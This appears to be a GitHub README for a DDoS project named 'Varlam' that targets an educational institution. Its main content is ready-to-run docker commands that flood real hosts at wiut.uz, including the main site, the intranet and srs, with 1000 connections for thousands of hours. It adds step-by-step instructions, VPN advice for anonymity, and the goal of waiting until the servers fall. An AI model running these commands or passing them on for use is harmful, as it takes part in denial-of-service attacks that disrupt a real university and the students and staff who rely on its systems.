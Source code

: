 <p align="center"><img width="300" src="./docs/readme.jpg"/></p>

<h1 align="center">Varlam</h1>

<p align="center">DDoS Gulag for Educational systems. In memory of <a href="https://en.wikipedia.org/wiki/Varlam_Shalamov">Varlam Tikhonovich Shalamov</a></p>.

# Target

<p align="center"><img src="./docs/diagram.png"/></p>

# If you have kubertnetes cluster `./run_all_kuber.sh`
[Kubernetes Docs](docs/digital_ocean_kubernetes.md)

The easiest way

`docker run -d --rm alpine/bombardier -c 1000 -d 60000h -l https://wiut.uz`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://intranet.wiut.uz`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://srs.wiut.uz`
<br>

# Instruction for Windows and Mac:
1. Install Docker: https://www.docker.com/products/docker-desktop (For mac please pay attention if you download version for the correct chip)
2. Launch Docker and make sure that Docker is running
3. Go here https://github.com/kolyma-org/varlam/blob/main/README.md
4. For best result use VPN :
    - Psiphon: https://psiphon.ca/ (free)
    - Secure VPN: https://www.securevpn.com/ (free)
    - Proton VPN: https://protonvpn.com/ (free)
    - SurfShark: https://surfshark.com/ (paid)
    - Clear VPN: https://clearvpn.com/ (free)
    - Nord VPN: https://nordvpn.com/ (paid)
5. Find in application Windows Command Prompt or Terminal for Mac and launch as an admin.
6. run all aims from resources.txt for winodws - `run_windows.bat` for Linux/Mac `./run_all_docker.sh ` for resources.txt  or ( .`/run_all_docker.sh your_aim_file`)
7. If you want select aims mainally . `docker run -d --rm alpine/bombardier -c 1000 -d 60000h -l https://wiut.uz` Open as many separate CMD consoles as many scripts you are going to launch (each line – one script)
8. Make sure that the process started
9. Wait till wiut servers' fall

> All endpoints can be found at: https://dnsdumpster.com
